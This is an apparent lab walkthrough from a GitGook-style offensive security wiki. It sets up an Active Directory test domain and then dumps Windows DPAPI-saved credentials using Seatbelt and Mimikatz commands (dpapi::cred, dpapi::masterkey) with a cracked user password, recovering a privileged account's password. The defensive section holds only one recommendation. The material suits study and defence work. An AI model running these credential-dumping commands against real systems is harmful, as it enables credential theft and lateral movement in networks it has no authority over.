 ```yaml
---
description: >-
  DPAPI stands for Data Protection API. Which is used by windows to securely
  save credentials.
---
```


# Dumping DPAPI

## Configuring

1. Login to `DC03` as the `Administrator` user with the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" management tool and open the "Users" directory. Right click the "Users" directory and click "New User"
3. Create a user with the name `sa_backup` and the password `LS6RV5o8T9`. Make sure you deselect "User must change password at next logon" and select "Password never expires".

![](<../../.gitbook/assets/image (67) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (62) (1) (1) (1) (1) (1).png>)

4\. Add the user to the "Account operator" and "Backup Operator" groups via the interface, memberof section or run the following command:

```
Add-ADGroupMember "Account Operators" -Members sa_backup
Add-ADGroupMember "Backup Operators" -Members sa_backup
Add-ADGroupMember "Server Operators" -Members sa_backup
```

5\. Login with the `sa_sql` user and the password `Iloveyou2` on `DATA01`.

6\. Click start and open the "Credential Manager".

![](<../../.gitbook/assets/image (64) (1) (1).png>)

7\. Click on the "Windows Credentials" tab and select "Add a Windows credential".

![](<../../.gitbook/assets/image (12) (1) (1).png>)

8\. Fill in the following information:

* Internet or network address: `secure.local`
* User Name: `sa_backup`
* Password: `LS6RV5o8T9`

![](<../../.gitbook/assets/image (21) (1).png>)

## Attacking

### How it works

When you have comprimised a system and if a user is currently logged in you can retrieve its DPAPI masterkey and decrypt the saved credentials. This is also possible if you have the password of a user. These saved credentials might give you access to other systems or higher privileges within the domain and can be used for lateral movement.

### Tools

* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

### Executing the attack

1. One of the things I like to do when gaining access to a system is running Seatbelt. This tool will check many things like permissions, groups and for stored credentials. The tool describes itself as:

> Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

The tool is great for detecting DPAPI secrets.

2\. To run Seatbelt and do some of it checks we can run the following command:

```
.\Seatbelt.exe -group=user
```

3\. In the output of the section WindowsCredentialFiles we can see that the user `sa_sql` has some credentials saved:

![](<../../.gitbook/assets/image (18) (1) (1) (1) (1).png>)

4\. We can find the master encryption key id and some information about the saved credentials with the following Mimikatz command using the previous path and FileName:

```
./mimikatz.exe
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD
```

![](<../../.gitbook/assets/image (12) (1).png>)

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it.

{% hint style="info" %}
The latest compiled version of Mimikatz doesn't work on server 2022. Compiling the latest commit with Visual Studio 2019 gave me some errors, but this [https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64](https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64) repostorie/pull request worked for me without errors! I really hate compiling tools like this, always errors :cry:
{% endhint %}

5\. The next step is to retrieve the masterkey with the password of the user. Luckily we had its password from the previous pages were we captured the NTLMV2 hash after doing a UNC path injection through the SQL Service and cracked it. The password of the `sa_sql` user was `Iloveyou2`. With the following Mimikatz command we can retrieve the masterkey:

```
dpapi::masterkey /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Protect\S-1-5-21-1498997062-1091976085-892328878-1106\e1f462bb-9a65-40f0-a144-4f64bea97ce2 /sid:S-1-5-21-1498997062-1091976085-892328878-1106 /password:Iloveyou2 /protected
```

![](<../../.gitbook/assets/image (11) (1) (1).png>)

6\. We were able to retrieve the Masterkey, it it shown at the end of the output. Now we can read the saved credentials with the masterkey using the following Mimikatz command:

```
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD /masterkey:b3e8630e96acba990f836b4462a9285a4c987776f17f11b2559d9fdf67d03cf6b99dd89445d5641aef6f4477f7354eb6f19e3053e1d56712f45bc227249cdea2
```

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

First we get the output of the first mimikatz command we ran, some information about the credentials. The output shows is the saved credential for the `sa_backup` user with the password `LS6RV5o8T9`.

7\. With the help of PowerView we can quickly check if this user has any value:

![](<../../.gitbook/assets/image (4).png>)

In PowerView we can see that `sa_backup` is member of the `Account Operators` en `Backup Operators` groups. These groups are interesting!

## Defending

### Recommendations

* Don't save RDP credentials in Windows.

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords" %}
